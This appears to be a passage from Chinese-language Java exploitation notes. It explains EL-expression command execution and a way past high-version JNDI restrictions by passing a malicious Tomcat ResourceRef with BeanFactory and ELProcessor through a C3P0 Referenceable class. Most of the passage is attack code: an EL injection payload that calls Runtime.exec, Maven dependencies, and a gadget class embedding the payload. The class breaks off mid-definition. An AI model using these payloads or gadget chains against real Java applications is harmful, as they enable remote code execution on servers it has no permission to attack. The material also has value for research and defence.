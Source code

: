 

## EL表达式

没有fastjson/jackson情况下打不出网

EL表达式命令执行：

```java
${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('calc')")}
```

利用Tomcat依赖绕过JNDI高版本限制的思路，传恶意reference，就可以避免ReferenceableUtils利用链出网的问题。其实说来JNDI高版本这里都能用，不止局限于ELProcessor

只需要修改getReference的Reference构造

```xml
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.56</version>
</dependency>
<dependency>
    <groupId>org.apache.tomcat.embed</groupId>
    <artifactId>tomcat-embed-el</artifactId>
    <version>8.5.56</version> <!-- 使用与你的Tomcat版本相匹配的版本 -->
</dependency>
```

如下

```java
public class C3P0_jndiHighVersion_nonetwork implements ConnectionPoolDataSource, Referenceable {
    @Override
    public Reference getReference() throws NamingException {
        Reference ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"java.lang.Runtime.getRuntime().exec('calc')\")"));

        return ref;
    }

    @Override
    public PooledConnection getPooledConnection() throws SQLException {
        return null;
    }

    @Override
    public PooledConnection getPooledConnection(String user, String password) throws SQLException {
        return null;
    }

    @Override
    public PrintWriter getLogWriter() throws SQLException {
        return null;
    }

    @Override
    public void setLogWriter(PrintWriter out) throws SQLException {

    }

    @Override
```